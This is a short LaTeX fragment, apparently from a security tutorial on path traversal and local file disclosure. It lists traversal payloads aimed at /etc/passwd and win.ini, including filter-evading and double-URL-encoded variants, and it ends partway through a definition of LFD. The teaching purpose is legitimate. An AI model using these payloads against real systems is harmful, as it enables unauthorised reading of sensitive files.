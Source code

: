 \documentclass[12pt]{article}
\begin{document}
\subsection{Alternative Traversal Sequences}

Different systems accept different sequences:

\begin{lstlisting}
# Windows
..\\..\\..\\windows\\win.ini
..\\/..\\/..\\/etc/passwd

# Unix
....//....//....//etc/passwd
..;/..;/..;/etc/passwd

# All systems
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
%252e%252e%252fetc/passwd
\end{lstlisting}

\subsection{URL Encoding Variations}

\begin{longtable}{|l|l|}
\hline
\textbf{Character} & \textbf{Encodings} \\
\hline
. & \%2e, \%2E, \%252e \\
/ & \%2f, \%2F, \%252f \\
\textbackslash & \%5c, \%5C, \%255c \\
: & \%3a, \%3A, \%253a \\
\hline
\end{longtable}

\section{Local File Disclosure (LFD)}

\subsection{Definition}

Local File Disclosure (LFD) is similar to LFI, but the attacker can only read files rather than execute them.

The vulnerability discloses sensitive file contents.

\subsection{Difference Between LFI and LFD}
\end{document}
